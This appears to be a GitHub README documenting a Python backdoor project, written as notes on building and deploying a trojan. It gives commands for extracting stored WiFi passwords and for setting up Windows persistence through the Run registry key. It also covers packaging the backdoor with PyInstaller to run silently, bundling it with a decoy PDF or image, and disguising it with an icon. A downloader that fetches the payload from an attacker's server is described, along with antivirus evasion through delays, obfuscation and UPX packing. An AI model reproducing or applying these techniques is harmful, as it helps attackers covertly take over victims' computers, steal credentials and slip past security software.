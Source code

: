 ## py-backdoor
- Initial Execution
  ![Screenshot 2024-08-07 002322.png](./assets/Screenshot_2024-08-07_002322_1722970924517_0.png)
- Execution after Boot [ Windows-Persistence]
  ![Screenshot 2024-08-07 002050.png](./assets/Screenshot_2024-08-07_002050_1722970918144_0.png)
### </>
- **WiFi-Password Extraction**
	- To show all networks - `netsh wlan show profile`
	- To display details of a particular network - `netsh wlan show profile <network name> key=clear`
### Packaging - Download and Execute
- `Pyinstaller`
	- `pip install pyinstaller` - convert `.py` to executables
		- **note:** architecture of the target and the attack machine must be the same for this to work
		- `pyinstaller client.py --onefile`
		- `pyinstaller backdoor.py --onefile --noconsole -n client.exe`
- **Silent Execution**
	- `sys.exit() # reliable exit -> prevents error message from being displayed`
	- To execute with no console`pyinstaller client.py --onefile --noconsole`
		- `subprocess.check_output()` interacts with `stdio` and `stderr` by default
			- to disable interaction
			  ```
			  DEVNULL = open(os.devnull,'wb')
                          # All I/O will be redirected to DEVNULL
			  return subprocess.check_output(command, 
							shell=True,
							stderr=DEVNULL,
							stdin=DEVNULL)
			  ```
- **Persistence**
	- Key - `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`
		- Fields
			- Name - `/v`
			- Type - `/t`
			- Data - `/d`
	- Modify key
		- `reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Scheduler /t REG_SZ /d C:/Users/user1/AppData/Roaming/scheduler.exe /f`
	- **note**- since the backdoor starts every time the computer starts; if the listener is not running error will be raised -> to prevent this add `try-catch` to `main`
- `troj_exp.py`
	- downloads the image file and runs it
	- checks to see if backdoor is already present in `appdata` directory
	- if not present it downloads the file from the attacker's python server where both thr `.exe` and `image.png` are served
- Disadvantages with previous build
	- The target need an internet connection when running the trojan
	- Malware files have to be accessible via direct URL
### Packaging - Combine Dummy w/ Backdoor
- `pyinstaller --add-data "../dummy/image.png:." --onefile --noconsole backdoor.py -n scheduler.exe`
	- `--add-file` - `src-file-path:.` ; `:.` tell pyinstaller to keep the front files in the default application temp directory
	- The code below executes the front files
	  ```
	  file_name = sys._MEIPASS + "\Resume.pdf"
	  subprocess.call(file_name, shell = True)
	  ```
   	- `_MEIPASS` : the path to the _internal folder within the bundle [ in this case, the Non-Malicious PDF ]
- **mask executable** with `.ICO`
	  `pyinstaller --add-data "../dummy/Template.pdf:." --onefile --noconsole backdoor.py -n Template --icon <path-to-ico-file>`
	  ![image.png](./assets/image_1722969936363_0.png)
### AV-Evasion
- Detection Mechanisms
	- Signature-based bypass measures
		- useless operations - loops, arithmetic etc.
		- encoding and obfuscation
	- Behaviour-based bypass measures
		- Delay execution - use `time.sleep()`
		- Run normal trusted operations before malicious execution
- Compress `exe` - `upx`
	`./upx /<path-to-backdoor.exe> -o compressed_backdoor.exe`
- `IDAPro` can be used to modify the binary itself
